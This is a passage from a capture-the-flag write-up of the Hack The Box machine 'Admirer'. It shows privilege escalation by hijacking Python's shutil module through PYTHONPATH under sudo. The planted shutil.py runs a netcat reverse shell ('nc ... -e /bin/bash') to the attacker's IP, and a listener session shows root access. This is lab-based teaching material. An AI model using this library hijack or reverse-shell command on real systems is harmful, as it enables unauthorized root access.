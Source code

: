 So here we will create a python script named `shutil.py` and make use of `$PYTHONPATH` environment variable to call out `shutil.py` from our directory instead of original Python library directory.

> `$PYTHONPATH` - It has a role similar to PATH. This variable tells the Python interpreter where to locate the module files imported into a program. It should include the Python source library directory and the directories containing Python source code. PYTHONPATH is sometimes pre-set by the Python installer.

Creating a script named `shutil.py` inside `/dev/shm` Since, `make_archive()` function from `backup.py` takes three arguments, we will also call three dummy arguments inside our `make_archive()` function and using `os` module add a system call to execute `nc` for a reverse shell:

`shutil.py` inside `/dev/shm/`:

```shell
waldo@admirer:/opt/scripts$ cat /dev/shm/shutil.py
import os
def make_archive(c,f,x):
    os.system("nc 10.10.14.15 8020 -e /bin/bash")
```

### Root Shell

As our malicious script is ready let's execute it by setting up `$PYTHONPATH` environment variable as `/dev/shm/` and run `admin_tasks.sh`. Select Option 6 to execute `backup.py` script:

```shell
waldo@admirer:/opt/scripts$ sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
[sudo] password for waldo:

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```

Getting a call back on our `pwncat` listener as root:

```shell
cfx:  ~/Documents/htb/admirer
→ pwncat -l 8020 -vv
INFO: Listening on :::8020 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8020 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.187:48958 (family 2/IPv4, TCP)
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/scripts
cd /root
cat root.txt
ef8873650e34bd1*****************
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
root@admirer:~# whoami
whoami
root
```
And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
